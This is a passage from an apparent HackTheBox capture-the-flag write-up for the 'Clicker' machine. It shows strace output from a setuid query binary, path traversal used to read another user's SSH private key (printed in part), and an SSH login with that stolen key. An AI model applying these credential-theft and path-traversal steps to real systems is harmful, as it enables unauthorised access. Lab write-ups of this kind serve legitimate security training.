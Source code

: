 Knowing this I can run strace and check what the binary is doing when it tries to load a file and read it.

```bash
strace ./execute_query 5 /etc/passwd


access("/home/jack/queries//etc/passwd", R_OK) = -1 EACCES (Permission denied)
newfstatat(1, "", {st_mode=S_IFSOCK|0777, st_size=0, ...}, AT_EMPTY_PATH) = 0
write(1, "File not readable or not found\n", 31File not readable or not found
) = 31
exit_group(0)                           = ?
+++ exited with 0 +++
```

We throw up a flag here but also find our next vector. strace is preventing this from running with sudo so the permissions are not there to allow for reading files. But secondly we see that the default directory is `/home/jack/queries/`. I will try and read the ssh key since that is an obvious valuable locked within a home directory. 

```
--------------
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
...
...
LsOxRu230Ti7tRBOtV153KHlE4Bu7G/d028dbQhtfMXJLu96W1l3Fr98pDxDSFnig2HMIi
lL4gSjpD/FjWk9AAAADGphY2tAY2xpY2tlcgECAwQFBg==
-----END OPENSSH PRIVATE KEY---
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA' at line 1
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Clicker]
└──╼ $nano id_rsa
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Clicker]
└──╼ $chmod 400 id_rsa 
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Clicker]
└──╼ $ssh jack@clicker.htb -i id_rsa 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Oct  8 08:36:31 PM UTC 2023

  System load:           0.0166015625
  Usage of /:            53.4% of 5.77GB
  Memory usage:          16%
  Swap usage:            0%
  Processes:             242
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.232
  IPv6 address for eth0: dead:beef::250:56ff:feb9:5ad2


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

```